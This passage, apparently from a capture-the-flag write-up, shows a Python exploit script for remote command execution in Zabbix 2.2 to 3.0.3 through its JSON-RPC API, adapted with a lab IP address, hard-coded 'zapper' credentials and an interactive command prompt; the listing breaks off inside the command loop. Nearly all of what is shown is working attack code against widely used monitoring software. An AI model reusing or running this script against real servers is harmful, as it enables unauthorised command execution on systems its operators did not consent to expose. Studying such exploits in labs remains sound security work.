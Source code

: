 Here's my final script:



      1 #!/usr/bin/env python
      2 # -*- coding: utf-8 -*-
      3 
      4 # Exploit Title: Zabbix RCE with API JSON-RPC
      5 # Date: 06-06-2016
      6 # Exploit Author: Alexander Gurin
      7 # Vendor Homepage: http://www.zabbix.com
      8 # Software Link: http://www.zabbix.com/download.php
      9 # Version: 2.2 - 3.0.3
     10 # Tested on: Linux (Debian, CentOS)
     11 # CVE : N/A
     12 
     13 import requests
     14 import json
     15 import readline
     16 
     17 ZABIX_ROOT = 'http://10.10.10.108/zabbix'       ### Zabbix IP-address
     18 url = ZABIX_ROOT + '/api_jsonrpc.php'   ### Don't edit
     19 
     20 login = 'zapper'                ### Zabbix login
     21 password = 'zapper'     ### Zabbix password
     22 hostid = '10106'        ### Zabbix hostid
     23 hosts = ['zipper', 'zabbix']
     24 
     25 def set_host(host):
     26 
     27     global execute_on
     28 
     29     if host.lower() == 'zipper':
     30         execute_on = 0
     31     elif host.lower() == 'zabbix':
     32         execute_on = 1
     33     print("[*] Current host is " + hosts[execute_on] + '\n')
     34 
     35 set_host('zabbix')
     36 
     37 
     38 ### auth
     39 payload = {
     40         "jsonrpc" : "2.0",
     41     "method" : "user.login",
     42     "params": {
     43         'user': ""+login+"",
     44         'password': ""+password+"",
     45     },
     46         "auth" : None,
     47     "id" : 0,
     48 }
     49 headers = {
     50     'content-type': 'application/json',
     51 }
     52 
     53 auth  = requests.post(url, data=json.dumps(payload), headers=(headers))
     54 auth = auth.json()
     55 
     56 while True:
     57         cmd = raw_input('\033[41m[' + hosts[execute_on]  + '_cmd]>>: \033[0m ')
     58         if cmd == "" : print "Result of last command:"
     59         if cmd == "quit" : break
     60         if cmd.lower().startswith('host ') and len(cmd.split(' ')) > 1:
     61             set_host(cmd.split(' ')[1])